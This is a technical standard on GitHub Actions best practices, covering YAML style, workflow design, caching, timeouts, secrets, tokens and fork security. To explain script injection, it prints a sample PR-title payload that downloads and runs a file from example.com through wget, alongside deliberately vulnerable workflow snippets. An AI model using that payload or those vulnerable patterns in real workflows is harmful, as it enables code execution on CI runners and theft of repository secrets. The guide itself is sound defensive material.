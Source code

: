 = TS-44: GitHub Actions
:toc: macro
:toc-title: Contents

This this technical standard serves as a collection of best practices for using (and making) GitHub Actions.

toc::[]

== YAML syntax

// TODO: Link to YAML best practices

Actions and workflows are defined in YAML files. YAML is designed to be a human-readable, as well as a machine-parsable, data serialization format. YAML files SHOULD, therefore, be written primarily with readability in mind.

Consideration SHOULD also be given to the maintenance of YAML files. Give thought, for example, to how diffs will be presented in source control and pull request systems. For example, because Git is a line-based version control system, it is RECOMMENDED to use YAML's multi-line syntax for lists. So, instead of this…

[source,yaml]
----
on:
  push:
    branches: [ "main" ]
  pull_request:
    branches: [ "main" ]
----

… do this:

[source,yaml]
----
on:
  push:
    branches:
      - main
  pull_request:
    branches:
      - main
----

YAML comment syntax SHOULD be used to document anything that is not intuitively understood from the YAML data structure and the workflow/action schema.

== Designing workflows and actions

=== General guidelines

* Prefer to compose workflows from modules. Encourage reuse by breaking out discrete parts of pipelines into actions, reusable workflows, or workflow templates.

* Break down workflows into small, discrete jobs and steps. This will make it easier to manage conditions and dependencies.

* Choose descriptive and meaningful names for your secrets and variables. It SHOULD NOT be necessary to consult any out-of-band documentation to understand the purpose of a secret or variable referenced in a workflow. If the meaning of a variable cannot be easily deduced from its name and context, include an adjacent comment to explain its purpose.

* Names for workflows, jobs and steps should also be clear and consistent.

* Test workflows thoroughly. Ensure that conditional logic and job dependencies work as expected. Do this by testing all the possible scenarios that could trigger each workflow.

=== Events

For some event types such as `pull_request`, if you do not specify the _types_ of PR events on which you want your workflow to run, GitHub will assume default activity types. Better, then, to be explicit about the specific event types that you want to trigger your workflows.

In the following example, event filters and activity types are used to refine the `pull_request` event trigger. This workflow will run only when a PR is opened or synchronized (ie. when the HEAD commit of the PR changes), and only for PRs whose base branch is either `main` or `dev`.

[source,yaml]
----
on:
  pull_request:
    types:
      - opened
      - synchronize
    branches:
      - main
      - dev

jobs:
  echo:
    runs-on: ubuntu-latest
    steps:
      - run: echo "A PR has been opened or synchronized AND base branch is (main OR dev)"
----

=== Jobs

A single job may, for example, compile, test _and_ deploy an application. Though convenient, it is generally considered to be best practice for each job definition to be responsible for a single concern, and for complex workflows to be composed from multiple single-responsibility jobs.

This has a number of advantages. For example, workflows will be easier to extend and maintain, and logging output will be easier to analyze.

=== Steps

All steps SHOULD be given a unique name. This will help to identify the output of each step in the logs, and so make it easier to debug failed workflows.

[source,yaml]
----
steps:
  - name: Say hello
    run: echo "Hello, world!"
----

=== Expressions

Expressions are commonly used in `if` attributes to make execution of an individual step or a whole job conditional.

[source,yaml]
----
jobs:
  production-deploy:
    if: github.repository == 'owner/repo' && github.ref == 'refs/heads/main'
    runs-on: ubuntu-latest
    steps:
      - name: Checkout code
        uses: actions/checkout@v2
      - name: Setup Nodes
        uses: actions/setup-node@v2
        with:
          node-version: '14'
      - name: Install bats
        run: npm install -g bats
----

The value of the `if` attribute is treated as a JavaScript expression, rather than a string value. Expressions can be used in other attributes, which assume string values by default, using the `${{ <expression> }}` notation. But even in `if` values, if the expression starts with `!`, the whole expression MUST be encapsulated in the `${{ }}` syntax, or escaped with `''`, `""`, or `()`. That's because the exclamation mark is reserved notation in YAML.

So, for consistency, it is RECOMMENDED the `${{ <expression> }}` syntax be used to wrap all expressions, even those in `if` values where this syntax is not required. Like this:

[source,yaml]
----
jobs:
  production-deploy:
    if: ${{ github.repository == 'owner/repo' && github.ref == 'refs/heads/main' }}
    runs-on: ubuntu-latest
    steps:
      - name: Checkout code
        uses: actions/checkout@v2
      - name: Setup Nodes
        uses: actions/setup-node@v2
        with:
          node-version: '14'
      - name: Install bats
        run: npm install -g bats
----

=== Repository and environment variables

Workflows SHOULD include fallback values for variables that are supposed to be configured via the repository itself. The purpose is to protect the workflow from those variables being accidentally deleted from the repository's configuration.

[source,yaml]
----
env:
  MY_ENV_VAR: ${{ vars.MY_ENV_VAR || 'default value' }}
----

For secrets, workflow scripts MUST check for a valid value and fail the step if a secret is missing.

== Performance optimization

=== Minimalism

Keep individual workflows, and reusable actions, as minimal as possible. The more time something takes to set up and run, the higher the costs of running your CI/CD infrastructure. Even shaving a few seconds off the run of a workflow can add up to significant cost savings over a month, a year.

Prefer lightweight actions over heavyweight ones. Prefer JavaScript actions over container actions, and best of all are composite actions consisting of simple shell scripts. Where container actions are essential – for example where you require a specific programming language or toolchain – prefer to use light images, such as alpine or alpine-node, over heavy ones.

Don't install unnecessary dependencies.

=== Caching

Be sure to use caching wherever possible. Have package managers cache dependencies, and cache any generated artifacts that can be reused between jobs or workflow runs.

=== Timeouts

By default, GitHub kills jobs after 6 hours if they have not finished by then. Many jobs don't need nearly as much time to finish, but sometimes jobs can hang and the extended run consumes unnecessary minutes, which has a cost.

It is RECOMMENDED to specify shorter timeouts, appropriate for each job. This is specified in minutes via the `jobs.<job_id>.timeout-minutes` attribute.

[source,yaml]
----
jobs:
  set_config:
    timeout-minutes: 30
    runs-on: ubuntu-latest
    steps:
      - [...]
----

=== Concurrency

It is RECOMMENDED to implement a concurrency strategy for workflows, especially long-running, resource-intensive ones. This will cancel running workflows in the same group when an event triggers a new run of the same workflow. For example, you can automatically cancel intermediate builds on a PR when a newer commit gets pushed to the PR's source branch.

[source,yaml]
----
concurrency:
  group: ${{ github.workflow }}-${{ github.ref }}
  cancel-in-progress: ${{ startsWith(github.ref, 'refs/pull/') }}
----

See the https://docs.github.com/en/actions/writing-workflows/workflow-syntax-for-github-actions#concurrency[GitHub Docs] for further guidance.

== Security

See also https://docs.github.com/en/actions/security-guides/security-hardening-for-github-actions#using-third-party-actions[GitHub's Security Hardening for GitHub Actions] guide, and also the series of posts on https://securitylab.github.com/resources/github-actions-preventing-pwn-requests/[GitHub's Security Lab] blog starting with "part 1: preventing pwn requests".

=== Secrets

Do not hard-code API keys, tokens, passwords, or other such secrets in workflow files, even if those files are committed to private repositories. All sensitive data MUST be managed via GitHub Secrets. GitHub Secrets provides a safe way to store and use secrets in your workflows.

[TIP]
======
CI workflows are also a good place to implement secrets detection using tools like https://github.com/GitGuardian/ggshield-action[GitGuardian].
======

Secrets SHOULD be regularly rotated, and unused ones deleted. Restrict who has permissions to create and update secrets.

Do not use complex data types for storing secrets. Secrets SHOULD be primitive values such as strings or numbers.

[source,txt]
----
# Good
SENSITIVE_VALUE1 = "abcdef"
SENSITIVE_VALUE2 = 123456

# Bad
{
  "sensitiveValue1": "abcdef",
  "sensitiveValue2": 123456
}
----

Be sure to mask any generated sensitive values in log output. Audit the source code of third party actions to make sure they do the same.

[source,yaml]
----
echo "::add-mask::$GENERATED_SENSITIVE_VALUE"
----

=== Tokens

Avoid storing tokens (and other long-lived secrets) where possible. For example, rather than using API keys to authenticate with your infrastructure providers, prefer using OpenID Connect (OIDC).

.How to use OpenID Connect
****
The following steps are done in your cloud provider:

1.  Create a role to be used only by your workflows. The role should contain the minimum set of permissions for the workflows to accomplish their tasks.

2.  Create an OIDC trust in the cloud provider. The trust should specify which repositories are allowed to obtain tokens, as well as any additional information necessary to increase security.

The following steps are done in the GitHub Actions workflows:

1.  Exchange GitHub's OIDC token for access credentials. There are several open source actions available from the marketplace that implement this exchange process.

2.  Use the short-lived credentials to manage resources. The short-lived credentials will be valid only for a single job, and will automatically expire after that.
****

DO NOT use classic Personal Access Tokens (PATS) to grant workflow access to code from another repository. Ideally, create a GitHub App and use its short-term credentials. If needed, use a fine-grained PAT and give it as few permissions as necessary for the workflow to do its job (ie. only read access to the required repositories).

When using fine-grained PATs, rotate then regularly. PATs are bound to specific GitHub users, so it is RECOMMENDED to create a generic shared user account against which to create your PATs.

=== `GITHUB_TOKEN` permissions

By default, `GITHUB_TOKEN`, which is automatically generated on each run, is given wide-ranging permissions to GitHub resources and operations. The principle of least privilege should be applied to these tokens, which means restricting permissions to the minimum required to do the job.

Permissions SHOULD be explicitly restricted on a per-workflow basis using the `permissions` attribute.

[source,yaml]
----
name: Open new issue
on: workflow_dispatch

jobs:
  open-issue:
    runs-on: ubuntu-latest
    permissions:
      contents: read
      issues: write
    steps:
      - run: |
          gh issue --repo ${{ github.repository }} \
            create --title "Issue title" --body "Issue body"
        env:
          GH_TOKEN: ${{ secrets.GITHUB_TOKEN }}
----

See the GitHub Docs for a full https://docs.github.com/en/actions/writing-workflows/workflow-syntax-for-github-actions#permissions[list of available permissions].

[IMPORTANT]
======
Workflows MUST OT pass the `$GITHUB_TOKEN` value to untrusted third-party software, including actions from untrusted sources.
======

The same practices apply for all kinds of tokens you create to authenticate with any kind of service, and which you store in GitHub Secrets. Always restrict permissions to the bare essentials, and rotate tokens regularly – whatever those tokens are used for.

=== Environment variable scope

To limit their scope, environment variables should be declared at the step level wherever possible. Elevate them to the job or (rarely) the workflow level only to solve the problem of sharing data between steps within a job, and between jobs within a workflow.

=== Untrusted input

Don't directly reference values you don't control. Consider the following example:

[source,yaml]
----
- name: lint
  run: |
    echo "${{github.event.pull_request.title}}" | commitlint
----

This allows for injection of malicious code into the workflow. For example, raising a PR with the following title…

[source,txt]
----
a" && wget https://example.com/malware && ./malware && echo "Title
----

… would cause the following code to be executed in your runner:

[source,txt]
----
echo "a" && wget https://example.com/malware && ./malware && echo "Title" | commitlint
----

The following context data cannot be trusted:

* `github.event.issue.title`
* `github.event.issue.body`
* `github.event.pull_request.title`
* `github.event.pull_request.body`
* `github.event.comment.body`
* `github.event.review.body`
* `github.event.pages.*.page_name`
* `github.event.commits.*.message`
* `github.event.head_commit.message`
* `github.event.head_commit.author.email`
* `github.event.head_commit.author.name`
* `github.event.commits.*.author.email`
* `github.event.commits.*.author.name`
* `github.event.pull_request.head.ref`
* `github.event.pull_request.head.label`
* `github.event.pull_request.head.repo.default_branch`
* `github.head_ref`

There are two possible solutions. The RECOMMENDED one – the safest one – is to extract the scripts to custom actions, which accept the inputs via their arguments. These SHOULD be JavaScript or container actions. The risks associated with script injection are reduced because the action's code is run in an isolated environment, rather than directly in the runner.

[source,yaml]
----
uses: ./.github/actions/print
with:
  text: ${{ github.event.pull_request.title }}
----

A second option is to bind the input value to an intermediate environment variable, and then print the value from that variable. This reduces the risks of script injection because the input value is not directly interpolated into the shell script. But this is not proper input sanitization, and this solution is not as robust as the first option. Nevertheless, it is probably perfectly adequate for private repositories where you trust the contributors.

[source,yaml]
----
- name: Print title
  env:
    PR_TITLE: ${{ github.event.pull_request.title }}
  run: |
    echo "$PR_TITLE"
----

[TIP]
======
It is best practice to double-quote shell variables to avoid word splitting. This practice is relevant to shell scripting in general, and is not specific to GitHub Actions.
======

In addition, it is RECOMMENDED to use code scanning tools to help detect potential exploits in your workflow code.

=== Consuming open source actions

There are many open source GitHub Actions that can be plugged in to your own workflows. However, just like with any open source software, open source actions MUST be carefully audited before integrating them into your development toolchain. The risks are similar to using package managers to automate the integration of third party components into your applications.

The following steps are RECOMMENDED when using third-party actions:

* Use only actions that are actively maintained. Check that bugs are triaged and fixed, and that reported security vulnerabilities are quickly patched.

* Use only actions that are published to the GitHub Marketplace, and only actions that have been verified by GitHub.

* Review the action's `action.yml` file for inputs and outputs, and check that the code does what it says it does.

* Include a specific version of the action, which you have audited. Best practice is to specify a commit SHA, rather than a branch or version tag. This ensures that the action's code is locked down and cannot be changed without you explicitly updating the version referenced from your workflow configuration. This will help to protect you from unexpected supply-chain compromises in the future.

[source,yaml]
----
- name: Checkout code
  uses: actions/checkout@a12a3943b4bdde767164f792f33f40b04645d846
----

=== PRs from forks

It is RECOMMENDED to disable automatic workflow runs from events triggered from forks.

Workflows on pull requests to public repositories from _first-time_ outside contributors will not run automatically by default, but it is RECOMMENDED that you disable automatic workflow runs from being triggered by external contributors _all of the time_.

Project maintainers MUST review code coming from external PRs before triggering the CI to run on those changes. Workflow approval requirements can be configured for a repository, organization, or at the enterprise level.

More generally, when adding workflows to public repositories, consider the security implications by asking yourself the following questions:

* What events could trigger a run?
* What code will be executed in the runner? Can it be trusted?
* What inputs are given to the workflow? Can _that_ be trusted?
* What data, secrets, and services does that code access?

Use of the `pull_request_target` event is especially dangerous and its usage MUST be restricted to a few specific use cases Specifically, when workflows runs are triggered by this event type, the workflows MUST NOT check out code, build or run code from the repository.

[source,yaml]
----
on: pull_request_target
#...
  - uses: actions/checkout@v3
    with:
      ref: ${{ github.event.pull_request.head.sha }}
----

Normally, workflow runs triggered from forks do not have access to secrets, or write access to the repository. But the `pull_request_target` event is a special case. For this event, the runner will be given the _base_ repository's secrets and by default the `GITHUB_TOKEN` will be granted write permissions on the PR's base repository. This opens up more potential attack vectors than the conventional `pull_request` event (for which `GITHUB_TOKEN` has only read access to the base repository and no other secrets are given to the runner).

Even though workflow runs triggered by `pull_request_target` events happen in the context of the base repository, rather than the head branch of the fork repository (which is what the `pull_request` event does), GitHub nevertheless RECOMMENDS that workflow runs triggered by `pull_request_target` events do not checkout, build or run any code from the base repository. In addition, to prevent cache poisoning, such workflows SHOULD NOT save any caches.

The purpose of these recommendations is to protect against a security vulnerability known as a "pwn request", which is when an attacker has gained access to a system and has compromised the passwords of users, or other secrets, of that system.

There is more detail on this attack vector on https://securitylab.github.com/resources/github-actions-preventing-pwn-requests/[GitHub's Security Lab] blog. Although the risks are low (because workflows triggered by `pull_request_target` events run on _your_ code not _their_ code), this event type SHOULD be reserved for limited use cases. GitHub's documentation states that this event type was introduced "to enable workflows to label PRs (eg. needs review) or to comment on the PR" and is not intended to be used for any kind of building, running, or other processing of the PR's changeset.

In summary, whenever you use `pull_request_target` in a workflow, the workflow's jobs MUST NOT check out, build, or run the repository's code.

=== Self-hosted runners

Use self-hosted runners only for running workflows defined in private repositories. Any code that `runs-on: self-hosted` runners MUST be kept private.

This is because, if in a public repository, third parties could run malicious code on your self-hosted runners by forking the public repository and then opening a pull request that triggers a workflow to run on the _their_ code in the head branch of their fork. Thus, the code executed in _your_ self-hosted runner is untrusted.

If you are using self-hosted runners, you are fully responsible for hardening your infrastructure to keep it secure from malicious use like this, for example by:

* Configuring a dedicated low-privilege user.
* Using isolated and ephemeral workloads to execute the jobs.
* Implementing logging and monitoring to ensure visibility.

But the ultimate security is to make sure that your self-hosted runners can only be used by trusted users inside your organization. That means keeping private the workflows and actions that run on them.

[NOTE]
======
GitHub doesn't allow personal accounts to use self-hosted runners on public repositories, but they do allow organizations to do so.
======

=== GitHub-hosted runners

It is recommended to pin workflows to specific runner versions, such as `ubuntu-22.04` rather than `ubuntu-latest`. This means you must manually update workflow configurations when old runner versions are deprecated, but the tradeoff is your workflows will be more stable in the meantime. (This is less an issue of security, more an issue of maintenance.)

[source,yaml]
----
# Prefer:
runs-on: ubuntu-22.04

# To:
runs-on: ubuntu-latest
----

